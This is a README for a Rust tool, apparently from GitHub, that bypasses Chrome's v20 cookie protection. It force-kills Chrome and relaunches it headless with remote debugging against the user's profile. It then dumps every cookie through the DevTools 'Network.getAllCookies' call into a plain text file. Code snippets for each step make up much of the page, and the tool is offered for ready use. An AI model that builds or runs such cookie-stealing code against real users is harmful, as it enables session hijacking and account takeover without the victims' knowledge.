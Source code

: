 ## bypass_v20_chrome_cookies
🚀 This repository **is a simple Rust project** for retrieving **Chrome v20 cookies.**

## 📌 Features
- Retrieve cookies v20 from **Chrome Debugger**
- **Simple and lightweight** Rust implementation
- **Easy** to use

## 🛠️ How It Works
This project uses **Rust** to retrieve **Chrome v20 cookies** using chrome debugging. Here are the main steps:
- **Checks if the program ```'chrome.exe'``` is running**: If it does, it closes it automatically.
```rust
fn verify_chrome() {
    let verify_chrome = Command::new("cmd.exe")
            .arg("/C")
            .arg("tasklist")
            .output()
            .unwrap();

    let result1 = String::from_utf8_lossy(&verify_chrome.stdout);

    if result1.contains("chrome.exe") {
        let _ = Command::new("taskkill")
                .arg("/F")
                .arg("/IM")
                .arg("chrome.exe")
                .output()
                .unwrap();


        thread::sleep(Duration::from_secs(2)); 
    }
}
```

- **Launches the Chrome Debugger**: Start Chrome in headless mode with remote debugging enabled.
```rust
let _ = Command::new(path_chrome)
            .arg(format!("--remote-debugging-port={}", port_debugging))
            .arg("--remote-allow-origins=*")
            .arg("--headless")
            .arg(format!("--user-data-dir={}", path_user))
            .stdout(Stdio::null()) 
            .stderr(Stdio::null())
            .spawn()?;
```

- **Connect to Debugging Interface**: Use ```reqwest``` to retrieve the ```webSocketDebuggerUrl``` for WebSocket communication.
```rust
let resp = reqwest::blocking::get(format!("http://localhost:{}/json", port_debugging))?;
let ws_url = json[0]["webSocketDebuggerUrl"].as_str().unwrap().to_string();
```

- **Retrieve Cookies**: Send a command to fetch all cookies via WebSocket.
```rust
let (mut socket, _) = connect(ws_url)?;
let data = serde_json::json!({ "id": 1, "method": "Network.getAllCookies" });
socket.send(Message::Text(data.to_string()))?;
```

- **Store Cookies**: Write the retrieved cookies to ```cookies.txt```

- **Clean Up**: Terminate the Chrome process to clean up resources.
```rust
let _ = Command::new("taskkill")
            .arg("/F")
            .arg("/IM")
            .arg("chrome.exe")
            .output()
            .unwrap();
```

## 📥 Installation
Make sure you have **Rust** installed. If not, you can install it via this website [rust](https://www.rust-lang.org/fr/tools/install):       
```
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
```
Then, clone this repository and build the project:
```
git clone https://github.com/bypass_v20_chrome_cookies
cd bypass_v20_chrome_cookies
cargo build --release
```

## 🚀 Usage
```
cargo run
```
Or use the compiled binary:
```
target/release/
```

## 🎉 Acknowledgments
- Inspired by various open-source **Chrome cookie** retrieval projects.

